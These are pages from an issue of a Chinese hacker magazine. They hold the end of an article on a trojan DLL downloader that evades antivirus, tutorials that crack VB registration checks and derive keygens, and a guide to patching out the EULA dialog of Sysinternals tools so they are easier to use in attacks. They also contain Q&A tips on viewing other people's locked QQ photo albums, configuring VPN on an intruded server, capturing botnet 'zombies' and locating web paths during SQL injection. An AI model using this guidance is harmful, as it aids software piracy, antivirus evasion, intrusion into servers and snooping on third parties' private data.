执行情况如图 1、图 2、图 3、图 4 所示。

以上代码仅仅只是个示例的下载者，测试能够穿透卡巴 7 最新版的主动防御（学习模式下），但如果像微点最新版那样有对整个系统盘文件创建都有监控的系统就过不了。不过，只要主动防御对文件监控有一点漏洞就很有可能被利用，上文说的 PATH 环境变量的运用就可以对文件后缀有很大的操作空间了。


再拓展一下思路的话，特洛伊 DLL 无论是在木马远控领域，还是其它一些领域，都有很大的运用空间。比如在渗透服务器的时候，可以利用这种技术进行提权，隐蔽性很强。

（文中所涉及的相关代码及工具都已经收录在本期光盘中）


## 编辑点评：

很好的想法，类似于映像劫持。现在这种方式已经经常被运用在木马及病毒身上了，不易发现，清除起来相对比较麻烦。

## Cracker 10086

栏目：北京的这个季节，天空好像不太好。无论是在太阳下还是在家，都能够看见很多天上飞来的东西。开始我不知道是什么东西，后来与朋友吃饭出来晃悠，看到像毛一样的东西。这些絮絮在南方是看不见的，但是在北京看见了，看来南北的差距还是比较大的。

说道南北差异，最典型的莫过于口音差异。因为经常说一个压缩包的体积有多大（有些包比较大，起码都超过 1G 了），这时候问题就来了。我口中说的 1G 和北方说的 1G 差别就大了，以至于同事都不清楚我说什么。后来也听见了其它英文字母的发音，果然有些是有差别的，所以有些时候我不清楚他们说什么，他们也不清楚我说什么，结果是闹了不少笑话。

## 零月破资源

- 1. QuickUnpack V2.1

QuickUnpack 是一款很好用的脱壳工具，被称为“万能脱壳工具”，它能够脱绝大部分压缩壳和小部分加密壳。相对于上一个版本，最新版修复了一些已知的 bug；多线程的程序现在也可以处理了；支持 Vista 系统下的操作；generic OEP finder 现在也可以支持 DLL，等等。


- 2. Armadillo Find Protected V1.9

Armadillo Find Protected 是一个专门检测穿山甲壳（即 ARM 壳）的小工具，因为 peid 检测出来的结果十分模糊，而这个小工具检测出来的结果基本接近 100%，所以这个工具是脱穿山甲壳必不可少的必备工具。


- 3. 灰狐驱动学习笔记系列

这是一本不错的驱动入门电子书教程，假如你想学点关于驱动方面的知识，可以先看看这本电子书，至少它可以先让你了解到关于驱动的一个大方向的知识。当你学习完这本电子书后发现已经不能满足，那么你就已经步入驱动的大门了，再学习其它的驱动书籍也难不倒你了。


## 介绍两种 VB 程序的破解新方法

从本文你可以学习到：

- VB 程序的几种破解方法

本文介绍了 VB 程序破解的两种新方法，国内外各破解论坛未见提及，今日奉献，希望读者能够喜欢并给予推广使用，则笔者不胜欣慰！

### 一、用 vbaStrCmp 软件破解 VB 程序

vbaStrCmp v2.1 由著名解密组织 TEAM RESURRECTION 出品，它由 **vbaStrCmp2.dll**、**vbaStrCmp2.ini** 和经修改的 **msvbvm60.dll** 三个文件组成，是一种 VB 程序自动化破解工具。

我们只要使其和目标程序位于同一目录下，运行目标程序，填入相关注册信息即可。其原理是对 msvbvm60.dll 中 __vbaStrComp、__vbaStrCompVar、__vbaStrLike、__vbaStrTextCmp、__vbaStrTextLike、rtcCompareBstr 函数进行监控，凡是采用这些函数进行比较的，都可以自动捕获注册码。

【例1】1.exe

运行目标程序，填入姓名 guodong，注册码 654321，vbaStrCmp v2.1 弹出，如图 1。

结果：姓名：guodong  
注册码：e1w2m2f9m3l2e40。

### 二、用 VB Decompiler Pro 破解 VB 程序

VB Decompiler Pro 是一款优秀的 VB 反汇编软件，既可以处理 VB Native 程序，也可以完美支持 VB P-Code 程序。作者为 GPcH，主页为 http://www.vb-decompiler.org，最新版为 7.5 版。其主界面主要由两个窗口组成：左窗口主要是 VB 事件、控件和属性，可展开，可双击；右窗口是跟随左窗口变化的相应的反汇编代码。设置选择推荐采用如图 2 的形式。


图1 用 vbaStrCmp v2.1 破解器 VB 程序

图3 VB Decompiler Pro 运行界面

图2 Options 配置

“窗体”选项中选择显示偏移；“反汇编”选项中：程序推荐按图示按官方给使用“参考”；“高级特性”中，勾选快速反汇编则无法使用“字符串参考”；“配色方案”有三种：default、help 和 hiew，选择 hiew 方案，汉字方能完美显示，并且有语法高亮显示。插件中，“Create MAP-file”可以导出 map 文件，供 IDA Pro 和 OllyDbg 使用；MAP 文件是记录了破解辅助信息的文本文件。“Show References”可以提供一些破解辅助参考。

### 三、VB Native 程序

【例2】2.exe

用 VB Decompiler Pro 破解，界面如图 3，上方写着为 Native Code，Form2 的 Command1_Click 是关键。代码如下：

```vb
Private Sub Command1_Click() '412DB0 '：后为注释性文字，可忽略掉
loc_00412DD5: var_8 = &H4010E8
loc_00412E75: var_2C = UCase$(Text1.Text) '关键一句，用户名转大写
loc_00412EA6: var_38 = Text1.Text
loc_00412ED0: call MSVBVM60.DLL.__vbaI24("")
' ...
If MSVBVM60.DLL.__vbaI24(...) < 6 Then '姓名小于 6 则出错
loc_00412F13: var_80 = 80020004h
loc_00412F16: var_70 = 80020004h
loc_00412F19: var_60 = 80020004h
loc_00412F1C: var_90 = &H411A5C
loc_00412F26: var_98 = 8
loc_00412F4B: MsgBox(&H411A5C, 00000000h, 10, 10, 10)
loc_00412F6F: End If
loc_00412F7F: var_30 = 2
loc_00412FD5: var_30 = Right$(var_2C, 00000002h) & Left$(var_2C, 00000002h) & Mid$(var_2C, 00000002h, 2)
loc_0041301A: var_38 = Text2.Text
```

```vb
loc_00413045: var_34 = 0
loc_0041305A: call MSVBVM60.DLL.__vbaStrComp(00000000h, var_34, var_30, "", "", arg_8)
If MSVBVM60.DLL.__vbaStrComp(00000000h, var_34, var_30, "", "", arg_8) = 0 Then
    loc_004130AB: Text1.Index = 00411A78h
    loc_004130FD: Text2.Enabled = FFFFFFFFh
    loc_00413145: call MSVBVM60.DLL.__vbaBoolVar(...)
    ' ...
    loc_00413169: CheckObj(MSVBVM60.DLL.__vbaBoolVar(...), 00414024h, 00411910h, 0000001Bh)
    loc_0041316F: GoTo loc_004131EC
End If
loc_0041317B: var_80 = 80020004h
loc_0041317E: var_70 = 80020004h
loc_00413181: var_60 = 80020004h
loc_00413199: var_90 = &H411AA0
loc_004131A3: var_98 = 8
loc_004131CB: MsgBox(&H411AA0, 00000000h, 10, 10, 10)
loc_004131EC: var_4 = 0
loc_004131F8: GoTo loc_0041323D
loc_0041323C: Exit Sub
loc_0041323D: Referenced from: 004131F8
loc_0041325B: Exit Sub
End Sub
```

其破解关键就是 loc_00412FD5 这句，令 var_2C = 姓名，var_30 = 注册码，并简化数字表示，则：注册码 = Right$(姓名, 2) & Left$(姓名, 2) & Mid$(姓名, 2, 2)。前面还有一句 loc_00412E75：姓名 = UCase$(Text1.Text)，就是将用户名转为大写字母了。这两句，你若稍懂一点儿 VB 编程，基本上注册机就出来了。

### 四、VB P-Code 程序

依次选择 “Tools” → “Options” 或直接按快捷键 F11 就可以进行配置，其反汇编代码有两种格式可以切换：反汇编到源程序、反汇编到助记符，如图 4。你若对 VB 编程比较熟悉，推荐选用第一种；你若对 VB 的 API 指令比较熟悉，推荐选用第二种。


图4 反汇编选择

【例3】3.exe

这是一个 VB P-Code 程序，用 VB Decompiler Pro 破解，界面上方写着为 P-Code，依次选择 “Tools” — “String”References”或直接按快捷键 Ctrl+L 可以看到注册成功的字符串信息，如图5。

双击，发现 main 的 Text1_Change 是关键，代码如下：

```vb
Private Sub Text1_Change() '40EB98
' Data Table: 4040B4
For var_114 = 1 To CInt(Len(Trim(CVar(Me.TextBox.Text))))
    var_A4 = (var_A4 + (CVar(Asc(CStr(Mid$(CVar(var_DC), CLng(var_D6), 1)))) + CVar(var_D6)))
Next var_114
If (var_A4 = 1764) Then
    Me.TextBox.Text = "恭喜你，注册成功了！"
    Text1.Enabled = 0
End If
Exit Sub
End Sub
```


' 符号后的文字为注释，可忽略掉。将 var_D6=var_114=i 带入关键语句，即如下代码：

```vb
For i = 1 To Len(Text1.Text)
    a = a + Asc(Mid$(string, i, 1)) + i
Next i
If (a = 1764) Then 注册成功
```

以上即为关注册机代码。可以看出，其实就是输入字串逐位 ASCII 码相加，位数也参与循环累加，和等于 1764 即成功。20 位的 ASCII 码位数累加之和为 210，1764-210=1554。1554 除以 20 约等于 77.7，故取 19 个 ASCII 码为 77 的，再补一个 ASCII 码为 91 的，即 19 个 M 再跟一个 [ 即可。

> 【文章所涉及到的目标程序已收录在光盘中】

## 编辑点评

风鸾给大家带来了最新的一篇关于 VB 程序破解的文章，这段时间有个网友经常会用 VB 写些小程序给一些爱好者练习，但是一些爱好者觉得 VB 的程序破解起来会很郁闷，尤其是 p-code 编译出来的，我相信这篇文章一定可以满足你的。另外对于 Native 编译出来的，难度会比 p-code 的低很多，为什么？因为 Native 编译出来的只要定位到用户代码里面去，破解基本就不难了。

## 去掉 SysinternalsSuite 集对话框验证

□戴大僧安 罗成[starmate]

**从本文你可以学到：**

- 如何去掉对话框

SysinternalsSuite 工具包提供了很多系统维护的小工具，这些小工具中很多都在网络攻击中被广泛使用。由于这些工具都拥有微软的数字签名，因此即使在攻击中被广泛地应用，也没有杀毒软件查杀，方便了很多人。微软也意识到了这点，因此在最近的版本中，所有工具都加入了一个对话框的验证，要求用户同意其选项才能继续使用，给工具的使用添加了一个小门槛。

由于它是对当前用户注册表的键值进行检测，如果检测到了就不弹出提示对话框，因此可以用如下方法绕过。例如对程序 winobj.exe，只要把如下注册表键值保存为 winobj.reg，在命令行下用 `regedit /s winobj.reg` 导入就可以过验证。

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Sysinternals\Winobj]
"Settings"=hex:16,00,00,00,1d,00,00,00,c0,03,00,00,2a,02,00,00,32,\
00,00,00,01,\
00,00,00,7b,00,00,00,00,00,00,96,00,00,00,96,00,00,00,96,00,\
00,00,01,5c,\
00
"EulaAccepted"=dword:00000001
```

这里我就不用这种方法了，打算自己动手进行破解，去掉它的对话框，这就省去老是要导入注册表的麻烦。

我以 winobj.exe 为例进行说明，对其它的工具破解，原理都一样。先用 PEDI 进行查壳，发现没有加壳。用 IDA 载入，明显地发现了程序的两个分支，先调用了程序 SUB_401480 进行判断，JNZ 如果不通过则跳转到右侧的 ret 结束，这个应该就是判断是否符合用户同意的条件，如图1。


我们当然不能让它这么结束，在汇编视图中找到地址 00404C78，在 OD 中把 JNA 改成 JZ 进行保存，运行却发现依然弹出来了对话框，只是在这个对话框中你点击“不接受”，那么程序依然可以继续运行。原来我们修改的是点击对话框的跳转，现在跟进子程序 SUB_401480 去看看。

在 4014E8 前面，刚进行了 RegQueryValueExA 查询，后面接一个典型的 cmp+jnz 组合，如图2。

显然这里就是如果没有找到键值就弹对话框，我们把 jnz 改为 jz，保存后运行程序，已经不弹出对话框了，破解 winobj.exe 成功。我们再换个思路修改，这个方法对所有 SysinternalsSuite 工具都适用。继续一路往下看代码，如图3。

这里先把对话框的几个参数压栈，然后调用 DialogBoxIndirectParamW 函数创建提示对话框，让用户进行选择。我们把这部分 nop 掉，不让它创建对话框，继续执行下面创建注册表的动作，这个地方和前面两个地方的修改的区别在于我们修改跳转的位置不同。

第一种方法是改变了程序流程，而这里是不让其创建对话框。不过这样修改程序也存在一个问题，就是经过我们修改的程序，数字签名无法通过了，如图4，显示数字签名无效。

一般来说，签名是对整个程序的 hash 值进行了签名，我们修改了程序后，整个程序的 hash 值就发生了改变，那么签名自然就无效了。至于为什么是对 hash 值进行签名，而不是对整个程序进行签名，这里涉及到对密码学签名进行攻击的问题，我不便说得太广，大家有兴趣可以在武汉大学出的《密码学导论》一书中找到具体攻击实例。不过好在现在杀软不查杀这些工具，因此并不影响我们的使用。

对于大家经常使用的 psexec，破解的大致原理是一样的，只是前面初始化加了很多函数，跳转隐藏得比较深而已。不过只要知道了原理之后，都可以在 1 分钟内破解。前面已经发现了对话框创建函数为 DialogBoxIndirectParamW，我们用 OD 载入 psexec，按 **Ctrl+N** 找到导入表 **USER32.DialogBoxIndirectParamW**，如图5。

```asm
mov eax, [esp+144h+hKey]
lea ecx, [esp+114h+cbData]
lea edx, [esp+114h+Data]
push ecx ; lpcbData
push edx ; lpData
push ebx ; lpType
push ebx ; lpReserved
push offset ValueName ; "EulaAccepted"
push eax ; hKey
mov [esp+12Ch+cbData], 4
call ds:RegQueryValueExA
```

```asm
loc_4014E8:
cmp dword ptr [esp+144h+Data], ebx
jnz loc_4010F1
```

图2 cmp+jnz 经典组合

```asm
push ecx ; dwInitParam
push offset DialogFunc ; lpDialogFunc
push 0 ; hWndParent
push esi ; hDialogTemplate
push 0 ; hInstance
call ds:DialogBoxIndirectParamA
```

图3 对话框代码


图4 数字签名无效

```text
KERNEL32.DeleteFileW
ADVAPI32.DeleteService
USER32.DialogBoxIndirectParamW
KERNEL32.DisconnectNamedPipe
KERNEL32.DuplicateHandle
```

图5 DialogBoxIndirectParamW 函数

```asm
add word ptr [esi+8], bx
push eax
push 00401910
push 0
push esi
push 0
call dword ptr [<&USER32.DialogBoxIndirect...>]
push esi
mov dword ptr [esp+234], eax
```

图6 OD 中断下来了

右键选择在每个参考上设置断点，显示已经过了一个断点，按 F9 运行后断在如图6的位置。

把对应的 push 和 call 指令 nop 掉不让它创建对话框，保存到文件就可以了。

## 编辑点评

这篇文章难度不大，但是可能有些读者没接触过 IDA，所以看起来会觉得有点生硬，因为看不懂 IDA 的流程图。其实 IDA 是一款很强大的反汇编工具，反汇编后出来的流程图可以让我们把握程序的总体情况（OD 没有流程图这一个功能），更多资料请各位读者自行搜索一些关于 IDA 的资料或教程。


主持人：徐师傅

> Q：现在有什么新的方法查看 QQ 加密相册吗？

A：加密相册自从加入验证码后，暴力破解至少是行不通了。但是现在很多网友都是给 QQ 空间进行了加密验证，例如设置为“好友可见”或者增加了访问提示。针对这种方法，也就是查看加密空间的相册，有以下两种方法：

- 1. 利用 56.com 的视频相册制作功能导入 QQ 相册，一般加密空间而没有单独对相册加密的，可以查看。
- 2. 利用一些在线查看 QQ 空间的网站，例如 QQ 小旅馆等，输入对方 QQ 号码即可查看日志及相册等信息。

两种模式似乎都利用到了从缓存信息中读取数据，所以不一定准确。

原文链接：http://www.nohack.cn/bbs/thread-96217-1-1.html

> Q：我入侵一个服务器成功登录 3389，怎么和它建立 VPN 连接？

A：入侵服务器后，需要架设及配置 VPN，才可以建立 VPN 连接。具体的方法你可以百度搜索：“服务器 架设 VPN 图解”，至少可以看到图文并茂的教程。当然，也有一些现成的直接添加 VPN 用户的脚本及工具，例如 CC VPN Server。但是工具的效率很差，学会如何手工设置 VPN，是学黑客技术的必备条件。

原文链接：http://www.nohack.cn/bbs/thread-96209-1-1.html

> Q：我已经进入路由了，不知道该怎么内网映射，请问映射成功的特征是什么？

A：首先你必须在 TCP-IP 属性里自定义一个 IP 地址。我们可以使用 `ipconfig /all` 命令取得网关后进行相关设定，而不是从 DHCP 服务自动获取 IP。例如我的 TP-LINK 宽带路由器，进入路由的终端管理，在“转发规则”的子菜单“虚拟服务器”下定义自己的 IP 和需要映射的端口。

许多路由器大同小异，基本上不外乎查找“虚拟服务器”这个菜单。至于映射成功的特征，方法太多了，最简单的就是用 telnet 命令来判断。例如你开启了 8000 端口的映射，通过 IP138 等网站获取外网地址后进行连接测试。你外网 IP、cmd 下运行 `telnet 外网IP 8000`，连接成功即是映射成功了。当然，你利用 WEB 或者 FTP 判断，乃至通过防火墙截断主动连接，这些都是可行的。

原文链接：http://www.nohack.cn/bbs/thread-96178-1-1.html

## 读编互动

**Q：** 请教高手如何破解 Word 2003 的密码？我用了 N 种工具，好像没什么用。

**A：** Word 2003 的破解方法很简单，我常用的就是 Advanced Office Password Recovery 这款软件。打开加密的 Word 文档，选择破解的类型，一般选择暴力破解就可以了。当然，如果是针对受保护的密码，那么破解起来更容易，我这里就不赘述了，百度搜索一下：“破解 Word 保护密码”。

原文链接：http://www.nohack.cn/bbs/thread-96122-1-1.html

- **Q：** 各位朋友请教教我怎么抓肉鸡？
- 1. 怎样开别人的端口（端口木马的放置）
- 2. 远控的使用

**A：** 抓肉鸡的方法在上期栏目中已经详细介绍过了，这里回答你的两点提问：

1、对方的端口只是你入侵的一座桥梁，例如我们说的 135、139 端口的入侵，这是对方在开启相应端口并具备漏洞的条件下，你才可以执行入侵。而木马和后门肯定是需要开启内鸡端口，只是具备主动连接或者反弹连接的特性。如果你拥有了对方的远程管理权限，那么开闭对方的任意端口都是可行的。

2、远程控制的使用说起来简单，使用起来却是需要自身去体验的。现在基本都是反弹型的远程控制软件，可以用来反弹中转连接，例如中转文件或者域名转发；木马的效率和免杀强度等等，以及你所处的网络环境，掌握这些绝非一日之功，建议打好基础。

原文链接：http://www.nohack.cn/bbs/thread-96061-1-1.html

**Q：** 看了个教程，讲 MSSQL 数据库的注入，其中讲到确定网站的 WEB 路径，通过 DIRTREE 逐个查看硬盘及文件夹查找 WEB 目录。我去看老师在地址栏里不停地输入命令，我根本看不懂，请高手详细讲解一下原理，它这个方法应该还是万能的吧？还要看这个注入点有没有这个权限，和对方服务器上的设置，是这样吗？另外，用这种方法效率也太不行了吧？

**A：** MSSQL 库获取 WEB 目录可以利用 MSSQL 自带的扩展 xp_dirtree，前提是具备 DBOWNER 权限。public 权限只能修改数据库读取，这点概念必须清楚。找 WEB 路径也需要平时积累一定的入侵经验，以及你对目标存在一个理性的判断，如果盲目地大海捞针，恐怕事与愿违。

现在的服务器一般都会删除 xp_dirtree 这个危险扩展，当你拥有了 DBA 权限，却无法通过注入扩展获取 WEB 路径的时候，如何得到对方的 WEB 路径呢？黑阱、暴库、暴站破解，这些方法不妨试试。

例如 %25 的编码导致错误路径，例如“/”符号对 aspx 的不合法配置暴露路径，以及在入侵中结合旁注综合判断路径，这些方法都是必须掌握的。至少可以肯定地说，现阶段利用 xp_dirtree 这个扩展读取路径的服务器几乎是越来越少地被开放了，所以结合其它主流手段获取 WEB 路径，是不可缺少的功课。

原文链接：http://www.nohack.cn/bbs/thread-95982-1-1.html

**Q：** 看过几本教程，讲了 NC 命令，是 `nc -vv 网址 80<1.txt`。但前两天看了《黑客手册》，讲 `nc -vv 网址 <1.txt> 1.htm`，请黑友帮忙详细解答一下后一句，谢啦。

**A：** `<` 相当于提交，`>` 相当于返回，所以第二句的指令解释过来就是，向目标网址提交 1.txt 的数据，并把回显的结果写入到 1.htm。版主已经回答你的问题，但不是 NC 才搭配了这些指令符号，这个追加命令在入侵中的作用是很明显的，例如 echo 写入数据，例如用命令获取结果的回显。举个简单例子，在没有回显的情况下判断 net user 的结果，使用 `net user>C:\1.TXT` 查看这个文件就有了结果。

原文链接：http://www.nohack.cn/bbs/thread-95767-1-1.html

**Q：** 电脑开机时出现“RAM R/W test failed”，然后就进不去了！重启了 N 次之后又能进入……请问各位高手们，这是怎么回事？怎么解决？

**A：** 这句信息直译过来就是“存储介质读/写测试出错”，出现这种情况肯定就和内存有关了。我搜索百度里的一些相关信息，有人提到了插槽，至少通过我的维修经验来看，插槽出错的可能性是很小的。至于如何判断内存是否真的存在问题，你当然可以用橡皮擦擦拭金手指，去除氧化带来的影响接触；你也可以用酒精或者蒸馏水对内存插槽进行清洗。在这些工作到位后，找找微软的内存检测工具来测试，一般情况下，只要在测试中出现 failed 项目，那么你的内存多半就是出问题了。

原文链接：http://www.nohack.cn/bbs/thread-95655-1-1.html


一说起六月就怀念起童年……童年不在，青春也快要消失了，看着邻居家的小 MM 边做作业边舔冰棒，羡慕得我是口水滴答……最近手里有点紧，没接着什么黑活，响应“黑客守则”，不再盗号挂马，开始深造“社工”了。该如何让小 MM 把冰棒给我呢？眼看着冰棒就快化了，真希望时间停化呀！“小 MM，哥哥帮你写作业，你喂哥哥吃冰棒，行不行？”……于是……然后……结果……

## 建议选摘

姓名：钟鑫磊

职业：学生

对光盘有什么建议：增加一些学习视频，帮助我们这些初入黑客界的“婴儿”们。在使用前请告诉一些人“黑客守则”，如果一个黑客只是为了黑别人而做黑客，至少我是不赞同的。工具少一些，多教一些手工入侵什么的，培养自主攻击，训练逻辑思维。

希望看到什么专题的图书或文章：QQ 类的多一点吧，QQ 是很多人接触网络的最早工具，从 QQ 学起，慢慢来；随后再加上一点入侵的文章，让一些人了解黑客思维；最后来一点安全类的，在攻击别人的同时不能忽略自己。

终于骗到冰棒的某编：对于光盘，有了 DVD 的容量，内容就更丰富多彩了，关键是，希望大家能够真正地学习到知识，为自己，也为国家的网络安全做一些贡献。学习之前，希望每位读者心里都要有自己的“黑客守则”，未来是怎样的人生道路，我们是无法改变你们的，也许只有自己已经经历过一些事情后，才会对一些东西有所感悟吧。

姓名：范德鹏

职业：学生

对光盘有什么建议：我建议月刊用 CD 光盘装，因为我买了两本《黑客手册》了，但却无法看光碟里的东西，我学校的机器只能读 CD，这让我很闹心。如果能在学校弄，我会有很多时间，因为我还在学习当中。不知道我的建议有没有一些道理，但算是顶《黑客手册》了！牛！

一头暴诈的光编：自从《黑客手册》在 08 年底开始，就已经采用 DVD 光盘了，我看还是让学校电脑装上 DVD 光驱吧，不然你们怎么学习 WINDOWS 了啊？那玩意儿可得用 DVD 光盘来装啊。另外，如果要杂志 DVD 光盘里的某个东西，可以先找到一些配备了 DVD 光驱的电脑，然后把需要的东西拷贝到 U 盘上……咦？你们学校电脑没 USB 接口？这个……自己买台上网本，配备了 DVD 光驱的就行，现在很便宜哦，还带了 USB 接口的（啊！火星，没有）。

姓名：玩玩而已

职业：无

前辈：最近可好啊！是不是又弄到了很多肉鸡，很希望能跟你交个朋友。我本人非常地喜欢玩电脑，但是技术很差。在朋友那里看到了《黑客手册》，里面的内容非常地精彩，也非常地有用，只要坐在电脑前就能控制别人，监视别人，这真的很酷。我更向往你们的黑客精神，希望我能够像你们一样在网络中自由自在，来无影去无踪……

常常监视别人而被别人监视的悲端：你在监视别人的时候也会被别人监视的，如何理解黑客对地下的攻防，是一个黑客在学习过程中的历练。黑客不是搞破坏，希望大家能够正确认识黑客，别再把黑客两字抹得更黑……


出品人：非安全

编辑：Python　LCX　空气　眼镜猴　冰的原点　浪迹天涯　10086

特约编辑：风飘雨　小迷　XApache【zero】　张宇　青蛙王子　小龙猪

光盘编辑：眼镜猴　猪哥靓

平面规划：飞越迷雾　陈黎黎

网站：www.nohack.cn

网站编辑／管理：空气　Cass

发行：段东霞

电话／传真：010-68867436　010-86921991

邮购：速递小子 924073360（QQ）

形式：1DVD + 1手册，手册仅随光盘一同赠送，不得单独销售。

版权声明：图文版权所有，未经同意，不得转载。作者投稿文章，文责自负。

投稿信箱：nohack@21cn.com

邮购查询：hope_wym@sina.com

光盘投稿／交流信箱：CD@nohack.cn

在线商城：book.nohack.cn

淘宝专卖店：taobao.nohack.cn

拍拍网：paipai.nohack.cn

百度有啊：youa.nohack.cn